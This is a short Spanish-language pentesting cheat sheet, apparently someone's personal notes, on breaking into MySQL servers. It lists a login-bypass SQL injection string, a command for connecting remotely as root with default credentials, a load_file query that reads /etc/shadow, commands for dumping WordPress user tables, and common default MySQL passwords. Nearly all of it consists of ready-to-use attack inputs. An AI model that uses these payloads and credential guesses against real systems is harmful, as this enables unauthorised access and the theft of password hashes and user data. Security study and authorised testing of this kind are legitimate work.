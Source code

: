 # MySQL

Propietario: Adrian Gisbert Cabello

Para hacer una inyección simple de MySQL en el usuario pondremos lo siguiente: `' OR 1=1;-- -`		y ponemos la contraseña que queramos.

Para entrar mediante el protocolo MySQL: `mysql -u USUARIO -p -h 192.168.X.X` → usuario ***por defecto suele ser root***, no suelen cambiar credenciales por defecto. `mysql -u root -h 192.168.X.X`

Comandos para usar dentro de MySQL:

- `select load_file(¨/etc/shadow¨);`
- `show databases`
- `show tables`
- `;`

Cuando estamos dentro del MySQL estos son algunos de los comandos más importantes:

- Para ver las bases de datos: `show databases`
- Para seleccionar una base de datos: `use <Nombre de la base de datos>` = `use wordpress` → `show databases` → `select * from wp_users`

Credenciales por defecto:

MySQL							root::en blanco		|		root::root

